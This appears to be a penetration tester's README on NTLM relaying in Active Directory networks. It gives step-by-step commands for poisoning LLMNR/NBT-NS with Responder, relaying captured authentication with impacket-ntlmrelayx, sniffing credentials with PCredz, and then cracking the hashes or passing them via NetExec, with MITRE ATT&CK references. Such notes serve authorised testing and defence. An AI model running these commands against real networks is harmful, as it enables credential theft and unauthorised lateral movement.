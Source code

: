 # NTLM Relaying Tactics - Responder, NTLMRelayx, and Pcredz:
By responding to LLMNR/NBT-NS network traffic, adversaries may spoof an authoritative source for name resolution to force communication with an adversary controlled system. This activity may be used to collect or relay authentication materials.

 ### 1. Turn off SMB Server in Responder.conf. We will be utilizing the SMB Server in impacket-ntlmrelayx.

    $ sudo nano /usr/share/responder/Responder.conf

![Screenshot 2024-10-18 143302](https://github.com/user-attachments/assets/5930d61a-4072-473d-b4f9-9fda7720cf64)

 ### 2. Initiate Responder
    
    $ sudo responder -I eth0 -v 

 ### 3. Initiate ntlmrelayx in a separate terminal:

    $ sudo impacket-ntlmrelayx -tf /Desktop/targets -smb2support -r -d -w
 (will provide more victims, but is more intrusive so run in short periods of time, 30 minutes max)

 ### 4. Initiate PCredz in a separate terminal:

    $ cd /opt/tools/PCredz
    $ sudo pipenv run python Pcredz -i eth0

### 5. Once a hash is captured attempt to crack.
### 6. Attempt Pass-the-Hash through NetExec - Only NTLM hashes can be utilized for PtH attacks. This excludes NetNTLMv1 and NetNTLMv2.
### 7. If hash is cracked use password in NetExec.

**Additional References:**
   - https://attack.mitre.org/techniques/T1557/001/
   - https://hausec.com/2019/03/05/penetration-testing-active-directory-part-i/
   - https://www.giac.org/paper/gcih/34273/pass-the-hash-windows-10/174913#:~:text=The%20NTLMv2%20authentication%20process%20applies,knowledge%20of%20the%20corresponding%20password.

**Additional Tool:**
    python MultiRelay.py -t <Target_Scope> -u ALL
